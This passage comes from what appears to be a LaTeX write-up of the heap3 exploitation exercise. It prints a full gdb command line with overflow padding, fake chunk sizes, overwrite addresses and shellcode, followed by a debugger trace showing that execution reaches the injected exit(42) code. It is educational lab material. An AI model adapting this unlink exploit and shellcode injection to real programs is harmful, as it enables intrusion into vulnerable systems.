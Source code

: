 Here, I added two breakpoints to watch both precisely how my buffer is initially
placed in memory, and then how it's affected immediately after the
\texttt{unlink} macro is executed. We can see our \texttt{0xf0f0f0f0} was
overwritten with null bytes, but more importantly, we see that the
4 bytes of our shellcode starting at \texttt{0804c064} were clobbered
during the \texttt{unlink}. Continuing execution, we see that we
exit with status 052 in octal, which is 42 in decimal, demonstrating that
we now have code execution. Just to be clear, we can exploit the program again,
after having placed a breakpoint at main's return instruction, then
instruction-stepping into our shellcode.

\begin{lstlisting}
(gdb) r `python -c 'print("A"*32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff")'` `python -c 'print("\x04\xc0\x04\x08"+"\x50\xf7\xff\xbf"+"\x5c\xc0\x04\x08")'` `python -c 'print("\xf0"*4+"\xeb\x0c\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x31\xdb\xb3\x2a\xb0\x01\xcd\x80"+"\x90"*4)'`

Breakpoint 3, 0x0804893b in main (argc=134514825, argv=0x4) at heap3/heap3.c:29
29      in heap3/heap3.c
(gdb) si
0x0804c05c in ?? ()
(gdb) x/i 0x0804c05c
0x804c05c:      jmp    0x804c06a
(gdb) x/10i 0x0804c06a
0x804c06a:      xor    %eax,%eax
0x804c06c:      xor    %ebx,%ebx
0x804c06e:      mov    $0x2a,%bl
0x804c070:      mov    $0x1,%al
0x804c072:      int    $0x80
0x804c074:      nop
0x804c075:      nop
0x804c076:      nop
0x804c077:      nop
0x804c078:      add    %al,(%eax)
(gdb) c
Continuing.
dynamite failed?

Program exited with code 052.
\end{lstlisting}

We can plainly see that we jump to our shellcode. What we also notice
is that our shellcode performs a short (relative) jump to the standard
\texttt{exit(42)} shellcode from before. To fully complete the challenge,
we want to call the \texttt{winner} function, then clean up after ourselves
so that the program can exit normally. This is left as an excercise for the
reader.
